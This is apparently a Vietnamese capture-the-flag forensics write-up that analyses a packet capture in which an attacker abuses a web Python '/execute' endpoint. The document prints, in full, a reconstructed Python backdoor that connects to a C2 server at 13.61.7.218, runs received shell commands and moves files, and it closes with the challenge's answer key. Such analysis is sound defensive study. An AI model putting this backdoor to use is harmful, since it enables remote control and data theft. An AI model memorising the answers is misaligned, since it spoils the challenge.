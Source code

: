 # _TOOLPIE_ _(FORENSICS)_
![image](https://github.com/user-attachments/assets/74acfcd7-04ac-4e90-a6f0-1e72c11cbf41)

Bài cho 1 file pcapng, nhiệm vụ là phân tích và trả lời 6 câu hỏi

![image](images/45.png)

Mới đầu vào, mình follow tcp.stream, vì chỉ có 6 luồng nên mình sẽ ngồi phân tích hết

Đầu tiên là stream 0, thấy được 1 GET request từ IP 194.59.6.66 đến 1 HOST: 13.61.177.227, với yêu cả trả về trang chủ của 1 trang web

![image](images/46.png)

Trong phần nav của trang web có 2 liên kết là idex.html và script.html

Kết hợp với đó là mình export objects HTML và save all

![image](images/47.png)

Ta thử truy cập vào script.html xem sao

![image](images/48.png)

Đây giống như là một trang web cho người dùng thực hiện nhập mã Python rồi nhấn Execute để thực thi

Chưa có gì đặc biệt lắm, nên cùng đi đến với stream thứ 1

Tiếp tục là GET request từ 194.59.6.66 đối với server và ở gần cuối có 1 lệnh GET request tới /script.html

![image](images/49.png)

Khi ng dùng nhập mã và thực thi trên trang này thì nó sẽ gửi 1 yêu cầu POST/execute đến server

Và ngay sau đó là stream 3, vẫn tiếp tục là IP đó đã nhập mã và thực thi, nhìn script Python này uy tín vcl :v

![image](images/50.png)

Sau đó, stream 4 thì server đã thực hiện gửi `ec2amaz-bktvi3e\administrator` và có những phản hồi từ 1 IP __khác__ là 13.61.7.128. Đến đây mình sẽ có 1 số nhận định sau

- Thứ nhất, IP chịu trách nhiệm cho việc xâm phạm web của câu hỏi 1 đề cập chắc chắn là 194.59.6.66

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66
```

- Thứ hai, Attacker có thể đã gửi payload Python độc hại đến /execute, khiến server chạy mã độc. Nên /execute chính là enpoint giúp trả lời cho câu 2
```
2. What is the name of the endpoint exploited by the attacker?
Answer: execute
```

- Thứ ba, IP 13.61.7.128 rất có thể là máy chủ C2 (Command & Control), nơi attacker có thể điều khiển hệ thống đã bị khai thác và ở câu 4 cũng có hỏi liên quan đến C2 nhưng mình nhập không đúng do thiếu port ( mình sẽ phân tích tiếp đoạn này ở bên dưới)

Tiếp theo, mình sẽ đi phân tích ở đoạn mã Python mà attacker đã gửi đi, đoạn script thực thi bị nén `bz2` sau đó là `marshal.loads` rồi `exec`

Giải nén xong, mình đã đưa về được file `.pyc` nhưng kh thể đưa về mã nguồn `.py` được, sau đó AI có hỗ trợ mình có thể đưa về bytecode

![image](images/51.png)

Ngồi đọc 1 lúc, thì mình thấy được đáp án cho câu 3

![image](images/52.png)

```
3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-Fuscate
```

Vì bytecode quá dài, và mình méo hiểu gì nên nhờ AI đưa về .py theo đúng logic

```python
import os, socket, threading, time, random, string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

user = os.popen('whoami').read()
BUFFER_SIZE = 4096
SEPARATOR = '<SEPARATOR>'

def enc_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return cypher.encrypt(pad(mes.encode() if isinstance(mes, str) else mes, 16))

def dec_mes(mes, key):
    if mes == b'': return mes
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return unpad(cypher.decrypt(mes), 16)

def receive_file(k):
    client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client2.connect(('13.61.7.218', 54163))
    client2.send(k.encode())
    received = dec_mes(client2.recv(BUFFER_SIZE), k).decode().split(SEPARATOR)
    filename, filesize = received[0], int(received[1])
    client2.send(enc_mes('ok2', k))
    msg = b''
    while len(msg) < filesize:
        msg += client2.recv(BUFFER_SIZE)
    with open(filename, 'wb') as f:
        f.write(dec_mes(msg, k))
    client2.close()

def receive(client, k):
    while True:
        try:
            msg = dec_mes(client.recv(1024), k)
            message = msg.decode()
            if message == 'check':
                client.send(enc_mes('check-ok', k))
            elif message == 'send_file':
                threading.Thread(target=receive_file, args=(k,)).start()
            elif message == 'get_file':
                client.send(enc_mes('ok', k))
                path = dec_mes(client.recv(1024), k).decode()
                with open(path, 'rb') as f:
                    data = enc_mes(f.read(), k)
                client.send(str(len(data)).encode())
                client.recv(1024)
                client.sendall(data)
            elif message:
                answer = os.popen(message).read()
                enc_answer = enc_mes(answer, k)
                client.send(str(len(enc_answer)).encode())
                if client.recv(1024).decode() == 'ok':
                    client.sendall(enc_answer)
        except:
            client.close()
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect(('13.61.7.218', 55155))
            k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
            client.send(f"{user}{SEPARATOR}{k}".encode())
            time.sleep(60)

if __name__ == '__main__':
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
    client.send(f"{user}{SEPARATOR}{k}".encode())
    threading.Thread(target=receive, args=(client, k)).start()
```

- Chương trình này là một client kết nối tới một C&C (có địa chỉ IP và cổng cố định: 13.61.7.218:55155), kết hợp với những phân tích trc đó thì đã có đáp án cho câu 4
```
4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155
```

Sau khi kết nối tới C2 server xong thì thực hiện:
- Lấy thông tin người dùng thông qua whoami

- Thông tin này được gửi tới server cùng với khóa ngẫu nhiên (user + SEPARATOR + k), k chính là khóa để thực hiện mã hóa AES-CBC như trong script trên. Từ đây có câu trả lời cho câu 5\

![image](images/53.png)

```
5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq
```

- Dùng AES-CBC để mã hóa dữ liệu gửi đi và giải mã dữ liệu gửi về

Mình sẽ dùng key đó để decrypt dữ liệu gửi đi tại đây là sẽ có đáp án cho câu 6

![image](images/54.png)

Lấy dữ liệu ở dạng Raw, rồi lưu vào 1 file riêng

Script
```python
from Crypto.Cipher import AES

def decrypt_file(input_file: str, output_file: str, key: str):
    # Đọc dữ liệu đã mã hóa từ file
    with open(input_file, "rb") as f:
        ciphertext = f.read()

    # Sử dụng key.encode() làm IV (giống như quá trình mã hóa)
    iv = key.encode()

    # Tạo đối tượng giải mã AES-CBC
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv)

    # Giải mã dữ liệu
    decrypted_data = cipher.decrypt(ciphertext)

    # Loại bỏ padding (PKCS7)
    pad_len = decrypted_data[-1]
    decrypted_data = decrypted_data[:-pad_len]

    # Ghi kết quả giải mã ra file
    with open(output_file, "wb") as f:
        f.write(decrypted_data)

    print(f"Giải mã thành công! Đã lưu vào {output_file}")

input_file = "anh"   # File chứa dữ liệu đã mã hóa
output_file = "DONE"  # File để lưu dữ liệu sau khi giải mã
key = "5UUfizsRsP7oOCAq"        # Key giống lúc mã hóa

decrypt_file(input_file, output_file, key)
```

![image](images/55.png)

Check MD5

![image](images/56.png)

```
6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```

Tổng hợp đáp án

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66

2. What is the name of the endpoint exploited by the attacker?
Answer: execute

3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-fuscate

4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155

5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq

6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```





